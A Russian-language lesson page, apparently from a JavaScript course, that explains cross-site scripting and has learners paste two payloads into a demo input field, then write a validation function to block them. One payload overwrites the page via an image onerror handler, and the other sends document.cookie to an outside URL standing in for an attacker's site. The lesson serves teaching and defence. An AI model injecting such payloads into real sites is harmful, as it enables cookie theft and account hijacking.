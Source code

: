 # 🎓 XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
```
( вместо "C" используется "X", чтобы не было путаницы с CSS )
```
    Внедренный код будет выполняться на компьютере пользователя
    Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера
```
Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода
```
[:link: Перейдите по ссылке](https://garevna.github.io/js-samples/#03" target="_blank)

Откройте  `Chrome DevTools`

Установите точки останова  ( breakpoints ) для того, чтобы 
пошагово отслеживать выполнение кода и
вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IMG SRC="images/hack.png" onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
```
это довольно безобидная "атака", которая просто перезапишет содержимое body

2. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IFRAME SRC=js/attack.html 
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
```
`( с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем )`

Обратите внимание, что вместо ссылки ☕ ~~https://garevna.github.io/js-samples/js/attack.html~~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## 💼 

В панели навигации откройте файл **js/index03.js**

Обратите внимание на функцию валидации ввода пользователя  ( **testUserText** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

***
[:link: securitylab](https://www.securitylab.ru/analytics/432835.php)
[:link: websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)